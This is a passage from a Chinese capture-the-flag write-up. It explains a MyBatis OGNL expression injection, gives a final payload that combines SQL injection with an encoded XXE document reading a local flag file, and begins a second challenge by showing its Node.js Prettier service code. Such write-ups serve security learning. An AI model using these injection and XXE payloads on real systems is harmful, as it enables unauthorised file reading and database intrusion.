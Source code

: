 这个步骤是看了 wp 才知道的, 具体原因目前也说不太清楚, 参考文章如下

[https://xz.aliyun.com/t/10482](https://xz.aliyun.com/t/10482)

[https://chenlvtang.top/2022/08/11/Java%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%B9%8BOGNL/](https://chenlvtang.top/2022/08/11/Java%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%B9%8BOGNL/)

自己反编译源码调试了一下, 简要来说就是跟进到某一个步骤的时候, mybatis 会调用 OGNL parser 来解析 sql 语句中以 `${}` 或者 `#{}` 中的表达式并将执行结果替换进去

然后注意最终拼接的 sql 语句 where 之后的部分是以小括号包裹的, 注入时需要手动闭合

![image-20221213175456174](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212131755398.png)

最终 payload

```
password=${@java.lang.Character@toString(39)}) or 1=1#&poc=ADwAPwB4AG0AbAAgAHYAZQByAHMAaQBvAG4APQAiADEALgAwACIAPwA%2bAAoAPAAhAEQATwBDAFQAWQBQAEUAIAB0AGUAcwB0ACAAWwAKADwAIQBFAE4AVABJAFQAWQAgAGYAaQBsAGUAIABTAFkAUwBUAEUATQAgACIAZgBpAGwAZQA6AC8ALwAvAGYAbABhAGcAIgA%2bAF0APgAKADwAdABlAHMAdAA%2bAAoAJgBmAGkAbABlADsACgA8AC8AdABlAHMAdAA%2b&type=aaa&yourclasses=java.io.ByteArrayInputStream,[B,org.xml.sax.InputSource,java.io.InputStream
```

![image-20221213200206713](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212132002798.png)

## PrettierOnline

附件中存在两个服务 fe 和 prettier

前者负责启动 prettier docker 容器并将 `.prettierrc` 传入, 后者将 `.prettierrc` 作为配置文件解析, 然后格式化自身即 index.js (所以说题目给的描述是 `Prettier my(not your) code`)

prettier index.js

```javascript
const fs = require('fs')
const crypto = require('crypto')
const prettier = require('prettier')
const { nextTick, exit } = require('process')
require('./fw')

//const id = fs.readFileSync('./dist/id', 'utf-8').toString('utf-8').trim()
// fs.unlinkSync('./dist/id')
prettier.resolveConfig(`${__dirname}/.prettierrc`).then(config => {
  const ret = prettier.format(fs.readFileSync(__filename, 'utf-8'), config)
  //const o = crypto.createHash('sha256').update(Buffer.from(id, 'utf-8')).digest().toString('hex')
  //fs.writeFileSync(`./dist/${id}`, o, 'utf-8')
  fs.writeFileSync('./dist/ret.js', ret, 'utf-8')
  nextTick(() => {
    throw new Error('No NextTick here!')
  })
  exit(0)
})

```
